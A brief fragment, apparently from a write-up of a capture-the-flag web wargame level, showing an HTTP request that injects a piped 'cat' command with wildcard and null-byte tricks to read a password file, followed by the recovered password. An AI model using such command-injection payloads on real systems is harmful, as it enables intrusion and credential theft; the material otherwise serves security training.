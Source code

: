 "GET /index.pl?file=|cat+/etc/nat%3fs_webpass/nat%3fs30%00 HTTP/1.1"


natas30:wie9iexae0Daihohv8vuu3cei9wahf0e
